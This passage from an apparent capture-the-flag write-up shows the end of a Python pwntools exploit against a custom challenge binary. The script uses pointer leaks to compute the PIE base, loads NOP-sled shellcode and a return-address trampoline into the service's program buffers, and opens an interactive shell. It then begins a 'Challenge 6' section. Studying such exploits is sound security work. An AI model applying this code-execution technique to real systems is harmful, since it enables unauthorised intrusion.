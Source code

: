 ```python
    dmesg.kill()

    log.info(f'ip_leak: {hex(ip_leak)} sp_leak: {hex(sp_leak)}')
    return ip_leak, sp_leak

def main():    
    p = process(BINARY)
    input("Press enter to start..")
    log.info("Exploit starts!")
 
    ip_leak, sp_leak = get_leaks()
    pie_base = ip_leak - 0x172f
    log.info(f'pie_base: {hex(pie_base)}')
    assert(pie_base & 0xfff == 0)
    
    r1 = remote('localhost', 1337)
    input("Press enter to load yancode to mmap'ed buffer..")
    yancode_program = 0
    yancode = gen_yancode()
    load_program(r1, yancode_program, yancode)

    target_ypu = 0
    init_ypu(r1, target_ypu, yancode_program)

    input("Press enter to load and execute shellcode..")
    ypu_0_mmap_addr = pie_base + binary.symbols['data'] + 8
    log.info(f'ypu_0_mmap_addr: {hex(ypu_0_mmap_addr)}')

    shellcode_program = 0
    shellcode = b'\x90' * 0x100
    shellcode += asm(SHELLCODE.format(ypu_0_mmap_addr, ord(Opcodes.CMP), ord(Opcodes.SYSCALL)))
    shellcode += b'\x90' * (MAX_YANCODE_SIZE - len(shellcode))
    load_program(r1, shellcode_program, shellcode)

    shellcode_addr = sp_leak - 0x3008
    trampoline_program = 15
    trampoline = p64(shellcode_addr)
    trampoline *= int(MAX_YANCODE_SIZE / 8)
    load_program(r1, trampoline_program, trampoline)
    quit(r1)

    p.interactive()


if __name__ == '__main__':
    main()
```

## Challenge 6


[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html
